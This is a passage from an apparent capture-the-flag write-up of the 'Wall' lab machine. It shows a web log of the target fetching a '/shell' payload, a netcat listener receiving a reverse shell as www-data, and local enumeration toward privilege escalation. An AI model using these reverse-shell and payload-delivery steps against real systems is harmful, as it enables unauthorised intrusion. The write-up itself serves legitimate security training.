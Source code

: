 

Hits on webserver:



    10.10.10.157 - - [15/Sep/2019 05:34:00] "GET /shell HTTP/1.1" 200 - 



And then shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.157.
    Ncat: Connection from 10.10.10.157:35064.
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@Wall:/usr/local/centreon/www$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)



I can see `user.txt`, but I can't read it:



    www-data@Wall:/home/shelby$ ls -l 
    total 12
    -rw-rw-r-- 1 shelby shelby 4567 Jul 30 17:37.md.zip
    -rw------- 1 shelby shelby   33 Jul  4 01:22 user.txt



## Priv: www-data --\> shelby

### Enumeration

In `/opt`, there's a hidden directory:



    www-data@Wall:/opt$ ls -la
    total 12
    drwxr-xr-x  3 root root 4096 Jul  4 17:28 .
    drwxr-xr-x 23 root root 4096 Jul  4 00:25 ..
    drwxr-xr-x  2 root root 4096 Jul 30 17:39 .shelby



It has a single file, which is a python byte compiled program:



    www-data@Wall:/opt/.shelby$ file backup 
    backup: python 2.7 byte-compiled



I can run it:
